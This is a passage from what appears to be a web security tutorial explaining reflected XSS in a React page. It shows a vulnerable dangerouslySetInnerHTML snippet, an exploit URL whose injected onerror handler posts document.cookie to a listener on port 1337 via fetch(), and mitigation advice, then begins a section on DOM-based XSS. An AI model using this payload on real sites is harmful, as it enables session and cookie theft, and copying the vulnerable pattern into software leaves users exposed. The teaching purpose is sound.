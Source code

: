\documentclass[]{article}
\begin{document}
Reflected Cross-Site Scripting (XSS) occurs when user input is reflected in the server's response without proper validation. For example, an attacker might craft a malicious search URL containing a script. The server processes the request without sanitizing the input, and the frontend displays a message like "You are searching for XYZ," where "XYZ" is the malicious script. The browser then executes the script, potentially exposing sensitive data. Reflected XSS, also known as Non-Persistent XSS, happens in a single request-response cycle.

\textbf{Vulnerable code:}
Consider the situation where users can search for sellers by username. The vulnerable React code in \texttt{routes/locatorPage.js} retrieves the seller's username from the URL query parameter \texttt{sellerUsername} and displays it using the \texttt{dangerouslySetInnerHTML} property.

Here is the vulnerable code:
\begin{lstlisting}
<p>You are searching for seller: <span dangerouslySetInnerHTML={{__html: sellerUsername}}></span> </p> 
\end{lstlisting}

\textbf{Exploitation:}
An attacker can craft a malicious URL like this:

\begin{lstlisting}
http://localhost:3000/user/locator?sellerUsername=<audio src="" onerror="fetch('http://localhost:1337', {method:'POST', body:document.cookie})">
\end{lstlisting}

When a user clicks on this URL, the script executes and sends the user's cookies to the attacker's server listening on port 1337. The attacker can capture the cookies using netcat.

\textbf{Mitigation:}
To prevent Reflected XSS vulnerabilities, it is essential to set cookies with the \texttt{HttpOnly: true} flag to block access to \texttt{document.cookie}, properly handle and sanitize all user inputs, especially those included in the URL, and stop using \texttt{dangerouslySetInnerHTML}.

\paragraph{DOM-Based Cross-Site Scripting}

DOM-Based Cross-Site Scripting (XSS) is a type of XSS attack caused by improper handling of untrusted input on the client-side, rather than the server-side. This means the vulnerability exists within the client-side code (e.g., JavaScript) that manipulates the DOM, without any need to reach back to the web server. As standalone web applications become more prevalent, the importance of securing client-side code against DOM XSS has increased.
\end{document}
